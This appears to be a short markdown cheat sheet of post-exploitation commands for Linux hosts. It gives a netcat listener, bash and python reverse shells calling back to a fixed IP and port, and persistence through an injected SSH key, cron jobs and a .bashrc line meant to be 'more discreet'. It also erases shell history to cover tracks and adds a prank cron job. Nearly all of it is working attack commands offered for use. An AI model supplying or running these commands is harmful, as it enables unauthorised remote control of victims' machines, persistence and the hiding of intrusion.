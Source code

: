 ## Foothold

1. Listen for reverse shell (Attacker)

        nc -lvnp 4444


2. Serve files auxiliary files on python http server

        python3 -m http.server

3. Launch reverse shell (Victim)

        bash -i >& /dev/tcp/192.168.2.54/4444 0>&1

    Or

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.54",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'



## Persistence 

TODO: Combine these three into one script that can be loaded with wget from the python server and executed.

1. SSH Authorized_keys 

- If authorized_keys needs to be created set the right permission, 700 for ~/.ssh and 600 for authorized_keys 

        chmod 600 ~/.ssh/authorized_keys 
        chmod 700 ~/.ssh

    And

        echo "ssh-rsa AAAAB3NzaC1yc2EAAA>----------SNIP---------<wno5DfYKqSEBQ==" >> ~/.ssh/authorized_keys 

2. Cron (Two different methods and different activation)

- Still needs testing 

        CT=$(crontab -l)
        CT=$CT$'\n10 * * * * bash -i >& /dev/tcp/192.168.2.54/4444 0>&1\n'
        printf "$CT" | crontab -

    Or

        (crontab -l ; echo "@reboot sleep 200 && bash -i >& /dev/tcp/192.168.2.54/4444 0>&1")|crontab 2> /dev/null



3. .bashrc TODO: needs tuning to be more discreet

        echo 'bash -i >& /dev/tcp/192.168.2.54/4444 0>&1 2>/dev/null &' >> ~/.bashrc





## Sneaky

1. Erase shell history 

        echo "" > ~/.bash_history



## Spooky

1. Create ghost file in home directory

    (crontab -l ; echo "* 22 * * * echo "BOO" > ~/ghost.txt\n")|crontab >/dev/null 2>&1



## Access/Capabilities




